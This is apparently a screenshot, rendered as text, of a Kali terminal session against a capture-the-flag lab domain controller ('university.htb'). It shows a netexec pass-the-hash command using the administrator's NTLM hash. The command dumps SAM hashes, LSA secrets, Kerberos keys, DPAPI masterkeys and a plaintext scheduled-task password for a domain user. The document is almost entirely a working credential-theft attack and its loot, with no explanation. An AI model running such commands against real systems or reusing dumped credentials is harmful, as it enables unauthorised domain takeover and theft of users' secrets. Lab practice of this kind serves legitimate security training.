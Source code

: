 
```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.153.87 -u administrator -H e63413bab01a0b8820983496c0be3a9a --sam --lsa --dpapi
SMB         10.129.153.87   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:university.htb) (signing:True) (SMBv1:False)
SMB         10.129.153.87   445    DC               [+] university.htb\administrator:e63413bab01a0b8820983496c0be3a9a (Pwn3d!)
SMB         10.129.153.87   445    DC               [*] Dumping SAM hashes
SMB         10.129.153.87   445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:e1ab6bc4d7d84111fe3e0fb271de1e0b:::
SMB         10.129.153.87   445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.153.87   445    DC               DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[18:35:44] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                 secretsdump.py:1435
SMB         10.129.153.87   445    DC               [+] Added 3 SAM hashes to the database
SMB         10.129.153.87   445    DC               [+] Dumping LSA secrets
SMB         10.129.153.87   445    DC               UNIVERSITY\DC$:aes256-cts-hmac-sha1-96:1e28d41c5f05d6d11bb85093b1dd37796d526e747f51aa75ab4cad3f3c90bfe7
SMB         10.129.153.87   445    DC               UNIVERSITY\DC$:aes128-cts-hmac-sha1-96:dd4911edcf56d2626325632928d0f45c
SMB         10.129.153.87   445    DC               UNIVERSITY\DC$:des-cbc-md5:23944961610b10d0
SMB         10.129.153.87   445    DC               UNIVERSITY\DC$:plain_password_hex:e97478a1793c33f8f9a11b182653d4c9e62c86d8b6e0a3d73196a9470144a56d3e5c1e9db75e8cc6b580e95a6a5094ef929ea1ede9ac3c890d2103cc2babc001c6bc6d1f501bf69f293b2edd261e6d2a78f7f548efb1bdaf579ff29aada34007b64f40324cedbe67ad19e78760883f63198000caff9ad2f4606b7ebdd8aa2c6c3d573fc3dec04ad378f3e9c00e0017b907bc227daa76db77910961120fc47e8fe605532a350a3096442e2efd4a6227f049c221f8e4a0b27d5bade63d7605438fd088e788815524c8484d2ec7fc11c2ea0a98ca014f819afee1a3da79cd9ea29662456e1006e9460201a6757f46759d18
SMB         10.129.153.87   445    DC               UNIVERSITY\DC$:aad3b435b51404eeaad3b435b51404ee:2522eb84c83b5e9ffde18045be5b9e59:::
SMB         10.129.153.87   445    DC               dpapi_machinekey:0x44e8899b6f107411270e6b698b1cfde82435f5c4
dpapi_userkey:0x0616b9ece51544c0f81f1c19a4cb7812aee0feb6
SMB         10.129.153.87   445    DC               NL$KM:88460a2baa9113806d4aadd2f2509c467d95dc66c93c552f9218486cdb31be0767230625473640fc4e03ece7cbc428f800674508b93129e4e69f6d5b07f79609
SMB         10.129.153.87   445    DC               [+] Dumped 7 LSA secrets to /home/kali/.nxc/logs/DC_10.129.153.87_2024-10-27_183537.secrets and /home/kali/.nxc/logs/DC_10.129.153.87_2024-10-27_183537.cached
SMB         10.129.153.87   445    DC               [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.153.87   445    DC               [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         10.129.153.87   445    DC               [+] Got 7 decrypted masterkeys. Looting secrets...
SMB         10.129.153.87   445    DC               [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{78DFC408-A3F6-4695-A8C0-F287C3AA1803} - UNIVERSITY\Rose.L:v3ryS0l!dP@sswd#X
